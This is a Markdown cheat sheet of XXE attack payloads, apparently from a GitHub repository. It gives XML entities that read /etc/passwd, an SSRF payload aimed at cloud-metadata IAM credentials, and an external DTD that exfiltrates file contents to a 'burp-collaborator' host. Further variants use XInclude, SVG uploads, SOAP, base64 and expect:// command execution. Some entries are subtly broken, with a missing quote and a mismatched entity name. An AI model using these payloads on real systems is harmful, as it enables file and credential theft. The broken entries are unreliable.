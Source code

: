 # XXE Cheatsheet

## using external entities
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

## perform SSRF attacks
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

## Blind XXE with out-of-band interaction
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://burp-collab"> ]>
```

## Blind XXE with out-of-band interaction via XML parameter entities
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burp-collaborator> %xxe; ]>
```

## blind XXE to exfiltrate data using a malicious external DTD
DTD file
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://burp-collaborator/?a=%file;'>">
%eval;
%test;
```

## blind XXE to retrieve data via error messages
DTD file:
```xml
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % notvalid "<!ENTITY &#x25; test SYSTEM 'file:///invalid/%file;'>">
%notvalid;
%test;
```

## XInclude to retrieve files
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## XXE via image file upload
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE inside SOAP body
```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

## XXE: Base64 Encoded:
```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

## XXE inside SVG
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```





